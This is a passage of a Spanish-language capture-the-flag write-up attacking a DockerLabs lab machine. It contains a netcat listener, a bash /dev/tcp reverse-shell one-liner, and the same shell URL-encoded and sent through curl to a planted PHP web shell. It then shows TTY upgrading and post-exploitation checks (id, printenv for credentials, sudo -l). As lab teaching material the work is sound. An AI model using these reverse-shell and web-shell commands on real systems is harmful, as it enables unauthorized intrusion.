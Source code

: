 pues nos ponemos a la escucha en el puerto 445:
```bash
sudo nc -lvnp 445
```
y nos enviamos una revershell:
```
bash -c "bash -i >& /dev/tcp/172.17.0.1/445 0>&1"
```
que encodeado queda así:
```bash
bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22
```

yo lo hice desde curl:
```bash
curl "http://cinema.dl/andrewgarfield/shell2.php?cmd=bash%20-c%20%22bash%20-i%20%3E%26%20%2Fdev%2Ftcp%2F172.17.0.1%2F445%200%3E%261%22"
```

pero funciona igual desde el recuadro o la URL

* Ya estamos dentro *

  Hacemos un tratamiento de la TTY:
  
```bash
export TERM=xterm
export SHELL=bash
script /dev/null -c bash 
^Z
stty raw -echo; fg
reset xterm
stty rows 51 columns 237
```

ahora es la metodología que tenga cada cual yo empiezo por "id" no siendo que estemos en algún grupo con privilegios:
```
www-data@dockerlabs:/var/www/cinema.dl/andrewgarfield$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```
nada, pruebo a ver la variable de entorno, he llegado a ver credenciales ahí en texto claro:
```
www-data@dockerlabs:/var/www/cinema.dl/andrewgarfield$ printenv
SHELL=bash
PWD=/var/www/cinema.dl/andrewgarfield
APACHE_LOG_DIR=/var/log/apache2
LANG=C
APACHE_PID_FILE=/var/run/apache2/apache2.pid
TERM=xterm
APACHE_RUN_GROUP=www-data
APACHE_LOCK_DIR=/var/lock/apache2
SHLVL=3
APACHE_RUN_DIR=/var/run/apache2
APACHE_RUN_USER=www-data
PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
_=/usr/bin/printenv
```
nada, lo siguiente es ver si tenemos algún privilegio con sudo -l y si no hay nada buscar permisos SUID o capabiliy
```
www-data@dockerlabs:/var/www/cinema.dl/andrewgarfield$ sudo -l
Matching Defaults entries for www-data on dockerlabs:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User www-data may run the following commands on dockerlabs:
    (boss) NOPASSWD: /bin/php
```